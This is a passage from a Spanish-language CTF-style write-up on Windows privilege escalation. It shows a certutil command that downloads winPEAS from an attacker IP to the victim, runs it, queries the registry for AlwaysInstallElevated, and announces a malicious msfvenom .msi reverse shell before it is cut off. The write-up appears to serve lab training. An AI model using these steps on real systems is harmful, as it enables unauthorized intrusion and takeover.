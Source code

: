 Procederemos a leer la flag **user.txt** en el directorio **C:\Users\Phoebe\Desktop**.

<br>

## Shell de root

### Enumeración
En este punto, tendremos que enumerar la máquina víctima con el fin de escalar privilegios. Para ello usaremos el binario de [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS). 

Lo primero será comprobar la arquitectura y la versión de nuestra máquina víctima con el comando **systeminfo**:

<img src="https://i.imgur.com/a00ngUX.png" width=700>

Como vemos estamos ante una máquina de 64 bits por lo que usaremos el binario de [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) para 64 bits.

Al igual que con el binario de [Netcat](http://netcat.sourceforge.net/) transferiremos el binario de [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) a la máquina víctima:

```powershell
certutil.exe -f -split -urlcache http://10.10.15.1/winPEASx64.exe
```

Lo ejecutaremos exportando el resultado a un archivo:

```powershell
winPEASx64.exe > winPeas.txt
```

Comprobaremos el resultado de [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) y nos encontraremos lo siguiente:

<img src="https://i.imgur.com/hIRkS1k.png" width=700>

Como vemos, [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) nos sugiere explotar el permiso AlwaysInstallElevated. Este permiso permite a cualquier usuario instalar y ejecutar archivos con extensión **msi** como el usuario administrador.

Comprobaremos si tenemos estos permisos en la máquina víctima, para ello tendremos que consultar los siguientes valores del registro de Windows:

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

<img src="https://i.imgur.com/BTHzDVH.png" width=700>

Podemos ver que tenemos ambos valores a 1 esto significa que podremos explotar este permiso.

<br>

### Archivo .msi  malicioso
Para explotar el permiso crearemos un archivo .msi con msfvenom que contendrá una TCP reverse shell:
